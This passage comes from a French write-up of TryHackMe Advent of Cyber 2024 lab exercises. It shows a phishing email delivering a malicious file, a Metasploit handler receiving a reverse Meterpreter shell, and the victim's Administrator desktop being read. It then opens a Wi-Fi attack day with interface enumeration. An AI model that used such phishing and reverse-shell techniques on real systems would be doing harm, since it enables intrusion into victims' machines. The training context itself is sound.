 > Le *handler* est prérempli grâce à l'utilisation de `setg` à l'étape précédente

Nous allons maintenant envoyer le fichier malicieux à notre victime, et attendre qu'il soit utilisé.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-10_mail.png" caption="Un mail de phishing plus vrai que nature... Ou presque" %}

Après quelques minutes, nous obtenons finalement une communication entrante :

```txt
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.189.230:9000 
[*] Sending stage (177734 bytes) to 10.10.131.147
[*] Meterpreter session 1 opened (10.10.189.230:9000 -> 10.10.131.147:49957) at 2024-12-16 21:29:57 +0000

meterpreter > 
```

Nous pouvons ouvrir le document qui nous intéresse via le `meterpreter` en place :

```txt
ls C:/Users/Administrator/Desktop
Listing: C:/Users/Administrator/Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 16:36:17 +0100  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 16:36:23 +0100  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  282   fil   2021-03-17 15:13:27 +0000  desktop.ini
100666/rw-rw-rw-  23    fil   2024-11-12 03:42:45 +0000  flag.txt

meterpreter > cat C:/Users/Administrator/Desktop/flag.txt
THM{[...expurgé...]}
```

## Jour 11 : Si vous voulez vous connecter avec WPA, appuyez sur la touche étoile

![Wi-Fi attacks](https://img.shields.io/badge/Wi--Fi%20attacks-4d354a?logo=tryhackme)

![Jour 11](https://tryhackme-images.s3.amazonaws.com/user-uploads/618b3fa52f0acc0061fb0172/room-content/618b3fa52f0acc0061fb0172-1730305996223.png)

L'ensemble des commandes est à réaliser sur la machine distante.

Nous commençons par afficher les interfaces sans-fil de la machine.

```bash
iw dev
phy#2
	Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:[...expurgé...]:00
		type managed
		txpower 20.00 dBm
```
